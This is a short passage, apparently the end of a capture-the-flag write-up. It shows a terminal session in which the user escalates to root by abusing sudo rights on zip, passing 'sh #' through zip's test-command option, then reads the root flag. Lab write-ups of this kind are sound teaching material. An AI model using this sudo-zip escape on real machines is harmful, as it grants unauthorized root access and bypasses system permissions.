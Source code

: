 ```
jeanpaul@dev:/$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# ls
flag.txt
# cat flag.txt
Congratz on rooting this box !
#
```

**DONE**
